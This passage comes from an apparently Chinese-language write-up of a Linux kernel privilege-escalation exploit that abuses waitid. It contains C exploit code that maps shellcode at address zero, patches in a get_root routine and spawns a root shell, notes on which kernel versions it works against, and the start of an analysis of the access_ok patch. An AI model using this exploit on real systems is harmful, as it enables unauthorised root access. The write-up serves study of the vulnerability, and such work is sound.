	xor rax, rax
	ret
	replace 0x4242424242424242 by get_root
	https://defuse.ca/online-x86-assembler.htm#disassembly
		 */
		unsigned char shellcode[] = 
		{ 0x48, 0xC7, 0xC0, 0x6C, 0xBE, 0xA1, 0x83, 0x48, 0xC7, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0xFF, 0xD0, 0x48, 0x31, 0xC0, 0xC3 };
		void **get_root_offset = rawmemchr(shellcode, 0x42);
		(*get_root_offset) = get_root;
	
		memcpy(0, shellcode, sizeof(shellcode));
		/* strcpy(0, "\x48\x31\xC0\xC3"); // xor rax, rax; ret */
	
		if(-1 == (pid = fork())) {
			perror("fork()");
			return EXIT_FAILURE;
		}
	
		if(pid == 0) {
			_exit(0xDEADBEEF);
			perror("son");
			return EXIT_FAILURE;
		}
	
		siginfo_t *ptr = (siginfo_t*)strtoul(av[1], (char**)0, 0);
		waitid(P_PID, pid, ptr, WEXITED | WSTOPPED | WCONTINUED);
	
	// TRIGGER
		pid = fork();
		printf("fork_ret = %d\n", pid);	
		if (pid > 0)
			get_shell();
		return EXIT_SUCCESS;
	}
	
github 上给的镜像为linux 4.14.0，能够运行成功，获得root而不崩溃，但不能调试。所以我改成上述的针对linux 4.13.0版本的，能调试和获取root权限，但是会崩溃。

### 补丁分析

**补丁：**

![](https://i.imgur.com/oJodlth.png)

**access_ok 用于检查用户空间的内存块是否可用**  
access_ok() 函数是用来代替老版本的 verify_area() 函数的。它的作用也是检查用户空间指针是否可用

	函数原型：
	access_ok (type, addr, size);
	
	变量说明：
	type   :   访问类型，其值可为 VERIFY_READ 或者 VERIFY_WRITE 。注意，VERIFY_WRITE 是 VERIFY_READ 的超集 -- 如果可以安全的写内存块，那么自然也总能读到内存块。
	
	addr  :   用户空间的指针变量，其指向一个要检查的内存块开始处。
	